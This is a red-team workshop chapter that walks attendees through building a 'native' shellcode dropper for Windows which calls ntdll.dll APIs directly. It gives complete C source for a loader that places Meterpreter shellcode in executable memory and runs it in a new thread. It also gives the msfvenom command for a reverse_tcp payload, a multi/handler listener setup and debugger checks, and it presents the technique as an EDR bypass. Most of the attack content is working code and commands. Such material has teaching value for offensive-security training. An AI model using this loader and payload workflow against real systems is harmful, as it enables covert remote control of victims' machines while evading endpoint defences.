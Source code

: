 ## Exercise 3: Medium_Level_API-Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with native APIs (ntdll.dll). We will create a **medium-level API shellcode dropper** and call it a native dropper.
![medium_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235372969-4d24ddec-7ee5-443e-966a-24b3d70dc3a8.png)



## Exercice 3 tasks:
### Creating the Native Dropper
1. Download the native dropper POC from the Code section of this chapter.
2. The code in the POC is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll. 
3. Then create x64 meterpreter shellcode and copy it into the POC.  
4. Compile the POC as a x64 release. 
5. Create and run a staged x64 meterpreter listener using msfconsole.
6. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Native Dropper
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the POC from the code section of this chapter. In this POC, we replace all the Win32 APIs we used before with the corresponding native function or API.
- NtAllocateVirtualMemory
- NtWriteVirtualMemory
- NtCreateThreadEx
- NtWaitForSingleObject

The code works as follows. Unlike the Windows APIs, most of the native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. To use the native APIs in our Native Dropper, we need to manually define the function pointers for the native APIs. This part is already fully implemented in the Native Dropper POC.
<details>
    
 ```
 // Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);
 ```
</details>
    
    
Shellcode declaration same as before in the Win32 Dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


To load the native functions directly from ntdll.dll, we need to load them manually from ntdll.dll. This code part is not finished and must be completed by the workshop attendee. In the native dropper POC you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```
// Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");    
```    
     
</details>    

<details>
    <summary>Solution</summary>
If it was at this time not possible for you to complete the code for the three missing native functions, you can use the following code and copy it into the Native Dropper POC. 

```
// Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");
```        

</details>     
     
     
     

For memory allocation, we replace the Windows API VirtualAlloc with the native API **NtAllocateVirtualMemory**.
<details>
    
```    
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```    
</details>    

For shellcode copying, we replace the Windows API WriteProcessMemory with the native API **NtWriteVirtualMemory**.
<details>
    
```
// Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);    
```
</details>    
    

For shellcode execution, we replace the Windows API CreateThread with the native API **NtCreateThreadEx**.
<details>
    
```
// Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);
```
</details>

And finally we have to replace the Windows API WaitForSingleObject with the native API **NtWaitForSingleObject**.
<details>
    
```
// Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);
```
</details>    

Here is the **complete code**, and you can copy and paste this code into your **Medium-Level-Dropper** project in Visual Studio.
You can also download the complete **Medium-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

// Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);


int main() {

    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");


    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 as the main function exit code
    return 0;

}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Medium-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Medium-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Medium-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Medium-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the High-Level-Dropper, you can see that the medium-level dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

## Medium-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could observe that there are more transitions from the Windows APIs to the native APIs we used in our Medium-Level-Dropper poc.
This result was expected and is correct because our Medium-Level-Dropper accesses or imports the needed native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject directly from ntdll.dll.
<p align="center">
<img width="522" alt="image" src="https://user-images.githubusercontent.com/50073731/235374864-c7e90dd6-82c6-49d1-a90c-b80a531416b3.png">
</p>
</details>    

## Medium-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, so far we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Medium-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight **ntdll.dll**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. 
    
<p align="center">    
<img width="867" alt="image" src="https://user-images.githubusercontent.com/50073731/235445644-240e5c3b-a3cf-4a7a-99be-27412e2dcb82.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are correctly executed/imported from the .text section in the ntdll.dll module. This investigation is very important because later in the direct syscall exercise we expect a different result with the low level dropper and want to match it.
    
<p align="center">    
<img width="686" alt="image" src="https://user-images.githubusercontent.com/50073731/235445865-c3fe83fa-1539-4ff3-b850-96cc91a0a01d.png">
</p>    
</details>


## Summary: Medium-level API Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via medium_level_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR bypassed 
